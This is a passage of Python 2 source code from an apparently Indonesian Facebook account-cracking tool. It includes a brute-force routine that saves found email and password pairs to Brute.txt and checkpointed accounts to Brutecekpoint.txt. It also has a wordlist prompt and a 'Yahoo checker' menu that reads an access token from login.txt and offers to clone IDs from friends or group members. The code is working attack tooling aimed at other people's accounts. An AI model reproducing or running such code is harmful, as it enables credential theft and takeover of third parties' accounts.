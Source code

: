 					dapat = open("Brute.txt", "w")
					dapat.write(email+" | "+pw+"\n")
					dapat.close()
					print "\n\033[1;91m[+] \033[1;92mFound"
					print 42*"\033[1;97m═"
					print("\033[1;91m[➹] \033[1;92mUsername \033[1;91m:\033[1;97m "+email)
					print("\033[1;91m[➹] \033[1;92mPassword \033[1;91m:\033[1;97m "+pw)
					keluar()
				elif 'www.facebook.com' in mpsh["error_msg"]:
					ceks = open("Brutecekpoint.txt", "w")
					ceks.write(email+" | "+pw+"\n")
					ceks.close()
					print "\n\033[1;91m[+] \033[1;92mFound"
					print 42*"\033[1;97m═"
					print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
					print("\033[1;91m[➹] \033[1;92mUsername \033[1;91m:\033[1;97m "+email)
					print("\033[1;91m[➹] \033[1;92mPassword \033[1;91m:\033[1;97m "+pw)
					keluar()
			except requests.exceptions.ConnectionError:
				print"\033[1;91m[!] Connection Error"
				time.sleep(0.01)
	except IOError:
		print ("\033[1;91m[!] File not found")
		tanyaw()
def tanyaw():
	why = raw_input("\033[1;91m[?] \033[1;92mCreate wordlist ? \033[1;92m[y/n]\033[1;91m:\033[1;97m ")
	if why =="":
		print "\033[1;91m[!] Wrong"
		tanyaw()
	elif why =="y":
		wordlist()
	elif why =="Y":
		wordlist()
	elif why =="n":
		menu_hack()
	elif why =="N":
		menu_hack()
	else:
		print "\033[1;91m[!] Wrong"
		tanyaw()
		
##### YAHOO CHECKER #####
#---------------------------------------------------#
def menu_yahoo():
	global toket
	os.system('reset')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;91m[!] Token not found"
		os.system('rm -rf login.txt')
		time.sleep(0.01)
		login()
	os.system('reset')
	print logo
	print "\033[1;97m║--\033[1;91m> \033[1;92m1.\033[1;97m With list friend"
	print "\033[1;97m║--\033[1;91m> \033[1;92m2.\033[1;97m Clone from friend"
	print "\033[1;97m║--\033[1;91m> \033[1;92m3.\033[1;97m Clone from member group"
	print "\033[1;97m║--\033[1;91m> \033[1;92m4.\033[1;97m Using file"
	print "\033[1;97m║--\033[1;91m> \033[1;91m0.\033[1;97m Back"
	print "║"
	yahoo_pilih()
#----pilih
def yahoo_pilih():